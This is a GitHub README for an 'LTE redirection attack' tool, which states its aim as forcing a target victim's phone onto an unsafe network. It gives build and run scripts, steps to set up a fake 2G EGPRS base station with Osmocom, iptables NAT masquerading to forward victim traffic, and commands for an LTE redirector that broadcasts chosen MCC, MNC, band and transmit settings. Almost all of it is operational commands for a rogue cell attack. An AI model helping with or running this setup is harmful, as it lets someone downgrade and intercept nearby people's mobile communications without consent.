 [build](https://youtu.be/0aruLybY__w)
# LTE-Redirection_Attack
Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
